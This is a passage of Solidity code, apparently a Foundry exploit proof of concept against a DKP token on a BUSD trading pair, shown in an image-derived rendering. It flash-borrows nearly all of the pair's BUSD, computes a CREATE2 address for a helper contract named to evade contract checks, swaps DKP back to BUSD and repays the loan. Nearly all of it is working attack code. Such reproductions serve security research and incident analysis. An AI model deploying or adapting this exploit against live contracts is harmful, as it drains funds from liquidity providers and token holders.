 ```solidity
        assert(address(c) == calcultedAddress);

        emit log_named_decimal_uint(
            "DKP balance",
            DKP.balanceOf(address(this)),
            DKP.decimals()
        );

        //还贷款
        uint256 returnAmount = (flashAmount * 10_000) / 9975 + 1000;
        BUSD.transfer(address(Pair), returnAmount);
    }

    function caculateSwapAmount() private returns (uint256) {
        uint256 b = BUSD.balanceOf(address(Pair));
        emit log_named_decimal_uint("BUSD balance of Pair", b, BUSD.decimals());

        uint256 a = (b * 9992) / 10000; // 99.92 %
        emit log_named_decimal_uint("I will borrow out", a, BUSD.decimals());

        return a;
    }

    function calculteSpecialContractAddress() private view returns (address) {
        address predictedAddress = address(
            uint160(
                uint(
                    keccak256(
                        abi.encodePacked(
                            bytes1(0xff),
                            address(this),
                            the_salt,
                            keccak256(
                                abi.encodePacked(
                                    type(RunAsNotContract).creationCode
                                )
                            )
                        )
                    )
                )
            )
        );

        return predictedAddress;
    }

    function DKP2BUSD() private {
        DKP.approve(address(Router), type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = address(DKP);
        path[1] = address(BUSD);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            DKP.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp
        );
        DKP.approve(address(Router), 0);
    }
}

```